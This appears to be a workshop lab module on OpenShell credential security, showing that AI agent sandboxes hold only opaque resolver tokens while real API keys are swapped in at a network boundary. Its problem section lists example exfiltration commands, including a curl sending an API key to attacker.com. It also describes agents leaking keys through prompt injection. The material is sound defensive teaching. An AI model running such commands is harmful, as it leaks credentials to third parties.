

# Credential Security

In this module you will prove that API keys are **never visible** inside the sandbox. The sandbox sees only opaque **resolver tokens**. Real credentials are injected at the network boundary — outside the agent's reach.

This is arguably the most innovative security feature of OpenShell.

## The Problem

AI agents need API keys to call external services (LLMs, APIs, databases). The traditional approach is to pass the key as an environment variable:

```bash
# Traditional approach — DANGEROUS
export MAAS_API_KEY=sk-abc123...real-key-here
```

This means the agent process can:
- `echo $MAAS_API_KEY` → **print it to the console** (and into logs)
- `curl https://attacker.com/?key=$MAAS_API_KEY` → **exfiltrate it over the network**
- `echo $MAAS_API_KEY > /tmp/stolen.txt` → **write it to a file** for later retrieval
- Pass it to any subprocess, library, or third-party dependency

Once the key is inside the container, it's **game over for credential security**. Any code running in that container — including malicious dependencies, prompt injections, or compromised libraries — can read and exfiltrate it.

## OpenShell's Solution: Boundary Credential Resolution

OpenShell takes a fundamentally different approach. The real API key **never enters the sandbox**. Instead:

1. The sandbox receives an opaque **resolver token** (like `openshell:resolve:env:v123_MAAS_API_KEY`)
2. When the agent makes an API call, the resolver token is sent in the `Authorization` header
3. The **Boundary** (running outside the sandbox, in the Supervisor) intercepts the request
4. The Boundary recognizes the resolver token, looks up the real key, and **swaps them**
5. The request continues to MAAS with the real key — but the sandbox never saw it



**The critical security properties:**

| Property | What it means |
|----------|-------------|
| **Sandbox never sees the real key** | Only the resolver token `openshell:resolve:env:v1:...` exists inside the container |
| **Boundary resolves at the network edge** | The real key is injected just before the request leaves the cluster |
| **Endpoint binding** | A resolver token for MAAS *cannot* be used to authenticate to a different service — the Boundary checks the destination |
| **No exfiltration possible** | Even if the agent sends the resolver token to an attacker, it's useless — only the Boundary can resolve it, and only inside the cluster |

## Step 1 — Enter the Sandbox

```bash
openshell sandbox exec pi-agent-demo -- bash
```

## Step 2 — Print the Environment Variable

```bash
echo $MAAS_API_KEY
```

Expected output (the exact token varies):

```
openshell:resolve:env:v1234567890_MAAS_API_KEY
```

> **Look carefully at this value.** It starts with `openshell:resolve:env:` followed by a version ID and `_MAAS_API_KEY`. This is **not** your real key (which starts with `sk-`). The real key is stored in Vault and only the Gateway/Boundary can access it. The sandbox sees only this opaque token.

## Step 3 — Try to Extract the Key

Even programmatic attempts to extract the key fail:

```bash
env | grep -i maas
```

Expected:

```
MAAS_API_KEY=openshell:resolve:env:v1234567890_MAAS_API_KEY
```

The resolver token is **all that exists** in the sandbox's environment. There is no second copy of the real key anywhere inside the container — not in files, not in memory, not in any other environment variable.

## Step 4 — Prove the Resolver Token Works (When Used Correctly)

Make a real API call using the resolver token — the Boundary will resolve it:

```bash
curl -s https://maas-rhdp.apps.maas.redhatworkshops.io/v1/models \
  -H "Authorization: Bearer $MAAS_API_KEY" | head -c 200
```

Expected: a JSON response listing available models (truncated):

```json
{"object":"list","data":[{"id":"gpt-oss-120b","object":"model"...
```

✅ **The call succeeds!** Here's what happened behind the scenes:
1. `curl` sent the request with `Authorization: Bearer openshell:resolve:env:v123...` (the resolver token)
2. The Boundary intercepted the HTTPS request *before it left the sandbox*
3. The Boundary detected the resolver token in the `Authorization` header
4. It looked up the real MAAS API key from the Gateway's provider config
5. It verified that the destination (`maas-rhdp.apps.maas.redhatworkshops.io`) matches the provider's registered endpoint
6. It replaced the resolver token with the real key (`sk-b99c...`)
7. The request was forwarded to MAAS with the real key
8. MAAS responded with the model list

**The sandbox never handled the real key.** The resolution happened outside the sandbox, in the Supervisor process.

## Step 5 — Prove Endpoint Binding

What if the agent tries to use the MAAS resolver token to authenticate to a different service?

```bash
curl -s --max-time 5 https://api.openai.com/v1/models \
  -H "Authorization: Bearer $MAAS_API_KEY" 2>&1
```

Expected: empty response or connection failure — `api.openai.com` is not in the network policy, so the connection is blocked before endpoint binding even comes into play.

❌ **The Boundary rejects this** on two levels:
1. **Network policy**: `api.openai.com` is not in the allowlist, so the connection is blocked
2. **Endpoint binding**: Even if the network policy allowed `api.openai.com`, the Boundary would refuse to resolve a MAAS resolver token for a non-MAAS endpoint — this is called a `credential_endpoint_mismatch`

> **Why endpoint binding matters:** Imagine an attacker sets up a fake MAAS-like server and adds it to the network policy. Even with network access, the resolver token would NOT be resolved for the attacker's server — the token is bound to `maas-rhdp.apps.maas.redhatworkshops.io` specifically.

## Step 6 — Prove Exfiltration Is Useless

If an attacker somehow extracted the resolver token and tried to use it outside the cluster:

```bash
# This is what the attacker would try (from their machine):
# curl https://maas-rhdp.apps.maas.redhatworkshops.io/v1/models -H "Authorization: Bearer openshell:resolve:env:v1:..."
```

Result: **401 Unauthorized**. The resolver token is meaningless outside the OpenShell Boundary:
- The MAAS API expects a real `sk-` key, not a resolver token
- The Boundary is the *only* component that can resolve the token
- The Boundary only operates inside the cluster

## Step 7 — Exit the Sandbox

```bash
exit
```

## Credential Lifecycle

The real API key passes through three zones. Only the Gateway zone ever holds the real key:

| Phase | What Happens | Who Sees the Real Key? |
|-------|-------------|----------------------|
| **Install** | Helm stores key in Vault → ESO syncs to K8s Secret | Vault and K8s Secret (encrypted at rest) |
| **Runtime** | Gateway reads K8s Secret, registers provider | Gateway only |
| **API Call** | Sandbox sends resolver token → Boundary swaps for real key → MAAS receives real key | Boundary (in-memory, per-request, never logged) |

> **Notice:** The sandbox row is missing because the sandbox *never* sees the real key. Not at install time, not at runtime, not during API calls. This is the fundamental innovation.

## Key Takeaways

| Property | Traditional Approach | OpenShell Approach |
|----------|---------------------|-------------------|
| Agent sees real key | ✅ Yes — it's in `$MAAS_API_KEY` | ❌ No — only a resolver token |
| Key can be logged | ✅ Yes — it's a real string | ❌ No — the token is opaque and useless |
| Key can be exfiltrated | ✅ Yes — send it over the network | ❌ No — the token is useless outside the Boundary |
| Key bound to endpoint | ❌ No — use it anywhere | ✅ Yes — credential_endpoint_mismatch protection |
| Key stored in Vault | Optional (usually not) | ✅ Yes — via ZTVP Vault + ESO |
| Key rotation | Manual — update every env var | Automatic — Vault → ESO → Gateway (1h sync) |

## Next Step

You've proven that credentials are invisible inside the sandbox. Now let's zoom out and see how all the ZTVP components — Vault, ESO, SPIFFE, ACS, and Keycloak — work together as defense-in-depth.

Proceed to: **ZTVP Integration** →
